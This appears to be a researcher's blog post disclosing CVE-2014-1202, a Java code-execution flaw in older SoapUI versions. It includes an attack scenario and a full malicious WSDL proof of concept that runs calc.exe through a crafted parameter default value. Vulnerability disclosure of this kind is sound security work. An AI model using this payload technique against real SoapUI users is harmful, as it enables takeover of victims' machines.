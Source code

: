 ```yaml
---
layout: post
title: SoapUI Code Execution Vulnerability - CVE-2014-1202
---
```


### SoapUI Code Execution Vulnerability - CVE-2014-1202

In this blog post I will discuss a vulnerability I’ve found in the SoapUI product before version 4.6.4 ([CVE-2014-1202](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-1202)).

I discovered this vulnerability during a penetration test in which I saw that the SoapUI software allows the clients to execute a Java code on the local machine by putting a Java code inside the following tag:

  

${=**_JAVA CODE_**};

  
  
The vulnerability allows the attacker to execute the java code on the victim's machine, thereby putting in danger the SoapUI users, including developers, penetration testers, etc.

  

The SoapUI product allows users to open a SOAP / REST project and import  WSDL/WADL files that help the users to communicate with the remote server easily.

WSDL/WADL files are XML-based grammar that define the operations that a web service offers and the format of the request and response messages that the client sends to and receives from the operations.

In WSDL/WADL files, the file owner can determine the default values of some parameters. Thus, an attacker can impersonate a legitimate web service and inject a malicious Java code into a default value of one of the parameters, and spread it to SoapUI clients.

When a SoapUI client will load a malicious WSDL/WADL file to his project in the SoapUI software, and send a request containing the malicious Java code, the SoapUI will execute the malicious Java code on the victim's computer.

  

The attack scenario:

1. An attacker impersonates a regular web service with a malicious WSDL containing the malicious Java code.

2. The victim creates a new project in the SoapUI and loads the malicious WSDL.

3. The victim decides to send a request to the remote server, thus, the SoapUI executes the malicious Java code.

4. The attacker succeeds in executing malicious code in the victim's machine and will take it over.

  

A Proof of Concept (PoC) video can be found at the following link:

[http://www.youtube.com/watch?v=3lCLE64rsc0](http://www.youtube.com/watch?v=3lCLE64rsc0)

An example of a malicious WSDL file can be found at the following link:

```javascript
<!--Malicious WSDL File, SoapUI Code Execution Vulnerability CVE-2014-1202, Barak Tawily-->
<wsdl:definitions targetNamespace="http://example.companyInfo"
 xmlns:tns="http://example.companyInfo"
 xmlns:wsdl="http://schemas.xmlsoap.org/wsdl/"
 xmlns:wsdlsoap="http://schemas.xmlsoap.org/wsdl/soap/"
 xmlns:wsdlmime="http://schemas.xmlsoap.org/wsdl/mime/"
 xmlns:xsd="http://www.w3.org/2001/XMLSchema">

 <wsdl:types>
  <xsd:schema elementFormDefault="qualified"
   targetNamespace="http://example.header">

   <xsd:element name="sampleHeader">
    <xsd:complexType>
     <xsd:all>
      <xsd:element name="priority" type="xsd:int"/>
     </xsd:all>
    </xsd:complexType>
   </xsd:element>
  </xsd:schema>


  <xsd:schema elementFormDefault="qualified"
   targetNamespace="http://example.companyInfo">

   <xsd:element name="Payload_Request">
    <xsd:complexType>
     <xsd:all>
      <xsd:element name="Payload" default="${=Runtime.getRuntime().exec('calc.exe')};" type="xsd:string"/>
     </xsd:all>
    </xsd:complexType>
   </xsd:element>

   <xsd:element name="Payload_RequestResult">
    <xsd:complexType>
     <xsd:all>
      <xsd:element name="result" type="xsd:float"/>
     </xsd:all>
    </xsd:complexType>
   </xsd:element>
  </xsd:schema>
  
  
 </wsdl:types>

 <wsdl:message name="Payload_RequestRequest">
   <wsdl:part name="part1" element="tns:Payload_Request"/>
 </wsdl:message>

 <wsdl:message name="Payload_RequestResponse">
  <wsdl:part name="part1" element="tns:Payload_RequestResult"/>
  <wsdl:part name="part2" type="xsd:string"/>
  <wsdl:part name="part3" type="xsd:base64Binary"/>
 </wsdl:message>

 <wsdl:portType name="CompanyInfo">
  <wsdl:operation name="Payload_Request">
   <wsdl:input message="tns:Payload_RequestRequest"
               name="Payload_RequestRequest"/>
   <wsdl:output message="tns:Payload_RequestResponse"
                name="Payload_RequestResponse"/>
  </wsdl:operation>
 </wsdl:portType>

 <wsdl:binding name="Exploit" type="tns:CompanyInfo">
  <wsdlsoap:binding style="document" transport="http://schemas.xmlsoap.org/soap/http"/>

  <wsdl:operation name="Payload_Request">
   <wsdlsoap:operation soapAction=""/>
   <wsdl:input name="Payload_RequestRequest">
    <wsdlsoap:body use="literal"/>
   </wsdl:input>
   <wsdl:output name="Payload_RequestResponse">
    <wsdlsoap:body use="literal"/>
   </wsdl:output>
  </wsdl:operation>
 </wsdl:binding>

 <wsdl:service name="CompanyInfoService">
  <wsdl:port binding="tns:Exploit" name="SOAPPort">
   <wsdlsoap:address location="http://somewhere/services/CompanyInfoService"/>
  </wsdl:port>
 </wsdl:service>

</wsdl:definitions>
```


